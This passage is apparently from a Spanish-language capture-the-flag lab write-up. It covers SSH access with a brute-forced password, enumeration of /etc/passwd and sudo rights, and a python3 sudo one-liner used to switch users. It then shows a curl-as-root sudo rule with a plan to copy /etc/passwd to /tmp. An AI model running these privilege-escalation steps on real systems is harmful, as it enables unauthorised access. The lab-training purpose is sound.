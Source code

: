 ### Intrusion
Tenemos un usuario valido:
```bash
DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: bob   password: password1
```

Ahora nos conectamos por ssh
```bash
# Reverse shell o acceso inicial
ssh bob@172.17.0.2 # ( password1 )
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Enumeracon usuarios del sistema
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
balulero:x:1000:1000:balulero,,,:/home/balulero:/bin/bash
bob:x:1001:1001:bob,,,:/home/bob:/bin/bash
```

###### Usuario `[ bob ]`:
Listando los permisos de este usuario:
```bash
sudo -l

User bob may run the following commands on efec34874b3a:
    (balulero) NOPASSWD: /usr/bin/python3
```

Ahora nos aprovechamos de esto para migrar al usuario **balulero**
```bash
sudo -u balulero /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```

###### Usuario `[ balulero ]`:
Listando los permisos para este usuario
```bash
sudo -l

User balulero may run the following commands on efec34874b3a:
    (ALL) NOPASSWD: /usr/bin/curl
```

Lo que aremos es con el comando **cat** veremos el contendio del archivo: **/etc/passwd**, Despues copiamos y luego lo guardamos en el directorio **/tmp**
```bash
cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```